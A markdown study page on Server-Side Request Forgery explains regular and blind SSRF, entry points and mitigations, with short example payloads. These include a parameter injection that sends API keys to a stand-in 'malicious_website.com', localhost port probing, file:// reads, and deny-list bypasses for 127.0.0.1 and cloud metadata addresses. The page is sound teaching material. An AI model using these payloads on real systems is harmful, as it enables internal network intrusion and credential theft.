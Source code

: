 # Server-Side Request Forgery

[![ssrfqi](../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![testingforssrf](../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-md-2"><div>

Server-Side Request Forgery (**SSRF**) is possible when a server A is making a request to a server B while creating the request using input that can be injected by the user.

It could be 

* a website using an internal/external API
* a website using resources located on another machine
* ...

There are two kind of SSRF

* **Regular SSRF**: the client will see the result
* **Blind SSRF**: nothing is returned to the client
  * You can use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)
  * You can use [requestbin](https://requestbin.com/)
</div><div>

It uses for a hacker are

* mapping an internal network (ports/...)
* stealing API credentials
* stealing files
* ...

A vulnerable entrypoint to this attack could be

* an URL <small>(is there a route/path/partial path looking like an API call?)</small>
* a form <small>(a normal field such as a form in which we need to pick an avatar in a list of images, an hidden field...)</small>
* a script
* a header
* ...
</div></div>

<hr class="sep-both">

## Some examples

<div class="row row-cols-md-2"><div>

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Phishing** 🎣<br> `a?url=some_url` $\to$ `a?url=malicious_url`

An **open redirect** endpoint is redirecting every user to another URL. For instance, in mails, tools such as HubSpot, replace every link in a mail with another one that will redirect to the original one, but record that the user opened the link at XXX, so that the company will understand their users behaviors. Well, if a website doing this redirect do not check the URL the user is redirected to, then a hacker may be able to use a trusted website (a trusted URL) to redirect targets (fishes 🐟) to a malicious website.

</div><div>

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

It's possible that the website is making requests to multiple APIs according to what the user wants. For instance, an API for Pokémon, and another for foods. Let's say, for food, the request will be made to `foods.thebestapi.com`, and for Pokémon, il will be `pokemon.thebestapi.com`. At first glance, the developer might think that's as we are always calling a subdomain of `thebestapi.com`, it's "safe". But, a hacker may use a trick like giving the following value `api=malicious_website.com&ignore=&r=path`. If so, the request will be made to `malicious_website.com?ignore=thebestapi.com/path`, as we gave the following value to `api`:`malicious_website.com&ignore=`. The goal of such redirect to another website is stealing the API keys stored in the headers.

**Mapping ports/services** 🗺️

You could enter a URL such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information (IP, DNS...).

**Steal files** 💰

You might be able to steal files too, using URLs such as `file://some/file/on/the/target`.
</div></div>

<hr class="sep-both">

## Mitigations

<div class="row row-cols-md-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is condition is something like `URL is starting with https://example.com`, then it can be easily bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in cloud environment, but there is usually a lot of way to bypass such filters. For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal) and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me) are all resolving to `127.0.0.1`.
</div></div>